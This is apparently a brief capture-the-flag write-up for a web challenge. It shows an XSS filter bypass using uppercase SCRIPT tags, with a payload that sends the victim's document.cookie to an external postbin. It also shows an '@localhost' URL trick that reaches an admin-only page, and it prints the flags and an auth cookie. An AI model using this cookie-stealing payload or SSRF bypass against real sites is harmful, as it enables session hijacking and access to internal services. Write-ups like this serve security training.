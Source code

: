 For the first flag you have to use XSS.

Words like 'script' and 'alert' are filtered, but 'SCRIPT' works.

As such, you can do something like this to steal the other person cookies:

<SCRIPT>new Image().src="link to postbin"+document.cookie</SCRIPT>

You will get 2 connections, 1 is yours and the other has the flag.

**First flag**
CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}


Along with the flag, you get the following cookie value for auth: TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz

If you create a cookie named 'auth' with that value, you can access Admin page.

'Users' and 'Livestreams' have nothing in it, but 'Camera Controls' seems to have something. The problem is it is only accessible from localhost.

In the first page we find that the video is presented through the path '/watch?livestream=...', so we may try to use this for a Local File Inclusion attack.

However, it only accepts files that begin with 'https://cwo-xss.web.ctfcompetition.com'.

As a bypass, we can include the file like this 'https://cwo-xss.web.ctfcompetition.com@localhost/admin/controls'.

Acessing the URL gives the flag.

https://cwo-xss.web.ctfcompetition.com/watch?livestream=https://cwo-xss.web.ctfcompetition.com@localhost/admin/controls

**Second flag**
CTF{WhatIsThisCookieFriendSpaceBookPlusAllAccessRedPremiumThingLooksYummy}